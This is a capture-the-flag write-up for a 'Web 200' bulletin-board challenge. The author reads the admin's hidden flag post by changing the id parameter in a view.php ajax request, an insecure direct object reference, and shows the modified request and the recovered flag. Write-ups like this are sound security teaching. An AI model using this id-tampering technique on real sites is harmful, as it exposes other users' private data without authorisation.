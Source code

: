 # Web 200

Web 200 is a sort of web bulletin board.

You can make an account, log in, post messages (which appear in
a large public list of all 'posts'), and view your own messages.

![Full Listing](assets/web200/flag_listing.png)

It seems that there is an **admin** account with a **flag** post. It
turns out that the goal of the puzzle is to illegally read the post.

I made the user **apple**, and then made a post titled **sdfsdf**. The
contents of the post was also **sdfsdf**. I probably should have
made them different.


![Own Post's Listing](assets/web200/own_listing.png)

As the picture shows, I can see other people's post titles and my own,
but I cannot see the contents. I can click View next to my own post to see the contents of my post.

![View Post](assets/web200/view_post.png")

Upon inspection of my network tabs, it's clear that clicking View
creates an ajax request to retrieve the description data.

![Ajax Request](assets/web200/ajax_request.png")

The source of the web page contains the following code:

    $.ajax({
        type: "POST",
        url: "view.php",
        data:"View=View&id="+id,
        success: function(msg) {
            alert(msg);
        }
    });

Mutate it to be that of the flag, and fire. With trial and error, It turns out that the flag's
id is 1, not 0.

    $.ajax({
        type: "POST",
        url: "view.php",
        data:"View=View&id="+1,
        success: function(msg) {
            alert(msg);
        }
    });

![Ajax Request](assets/web200/flag.png")

    ChutkiisVERYcute


